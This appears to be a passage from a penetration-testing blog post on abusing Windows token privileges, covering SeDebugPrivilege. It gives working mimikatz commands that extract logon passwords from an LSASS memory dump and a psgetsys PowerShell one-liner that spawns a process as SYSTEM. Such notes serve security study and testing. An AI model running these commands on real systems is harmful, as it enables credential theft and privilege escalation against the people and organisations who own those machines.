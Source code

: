 
## SeDebugPrivilege

It allows the holder to debug another process, this includes reading and writing to that process' memory. One example of abuse of this privilege is to run ProcDump from the SysInternals to dump a process memory. For example, the Local Security Authority Subsystem Service (LSASS) process, which stores user credentials after a user logs on to a system. You can then load this dump in mimikatz to obtain passwords:

```
mimikatz.exe
mimikatz# log
mimikatz# sekurlsa::minidump lsass.dmp
mimikatz# sekurlsa::logonpasswords
```

You could also try to escalate privileges using [psgetsys](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) :

```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(system_pid,command_to_execute)
```



# References

Most of the contents in this post are from the following sources:

- [Hacktricks](https://book.hacktricks.xyz/)
- [Abusing Token Privileges For LPE](https://www.exploit-db.com/exploits/42556)
- [Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- [FoxGlove Security](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)